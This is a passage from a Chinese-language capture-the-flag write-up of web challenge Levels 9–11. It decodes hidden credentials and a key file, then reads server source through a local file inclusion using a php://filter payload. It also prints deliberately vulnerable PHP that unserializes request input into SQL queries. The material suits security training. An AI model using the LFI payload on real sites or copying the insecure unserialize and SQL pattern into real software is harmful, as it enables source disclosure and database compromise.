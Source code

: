 3.

```js
strKey4.substring(strKey4.indexOf('1', 5), strKey4.length - strKey4.indexOf('_') + 5)
```

得到用户名 `G0od!JAVA3C41PTISAGO` 和密码 `1pt_Pa4sW0rd_K3y_H3re`，不过不用登录，因为 `key` 也可以直接得到。运行 `unescape("%3Cfont%20color%3D%22%23000%22%3Ea2V5X0NoM2NrXy50eHQ=%3C/font%3E")`，得到：

```html
<font color="#000">a2V5X0NoM2NrXy50eHQ=</font>
```

base64 解码得 `key_Ch3ck_.txt`，打开发现里面只有 `Ch3ck_Au7h.php`，但是打开发现只显示 `Your username error!`。因此我们 POST 刚才得到的用户名和密码。

### Level10

提示 LFI，并且 html 表单中有一个 `file` 参数，因此考虑用 PHP 伪协议，输入框中输入：

```
php://filter/read=convert.base64-encode/resource=index.php
```

flag 直接写死在源码中了。。

### Level11

存在备份文件 `index.php.swp`：

```php
function clear($string){
  // 这是过滤函数哦~
}


$userInfo = @unserialize($_REQUEST['userInfo']);

$query = 'SELECT * FROM users WHERE id = \''.clear($userInfo['id']).'\' AND password = \''.clear($userInfo['pass']).'\';';

$result = mysql_query($query);
if(!$result || mysql_num_rows($result) <1){
    die('Invalid password!');
}

$row = mysql_fetch_assoc($result);
foreach($row as $key => $value){
    $userInfo[$key] = $value;
}

$oldPass = @$_REQUEST['oldPass'];
$newPass = @$_REQUEST['newPass'];
if($oldPass == $userInfo['password']){
    $userInfo['password'] = $newPass;
    $query = 'UPDATE users SET pass = \''.clear($newPass).'\' WHERE id = \''.clear($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed Success.<br>';
}
else{
    echo 'Invalid old password entered.';
}
```
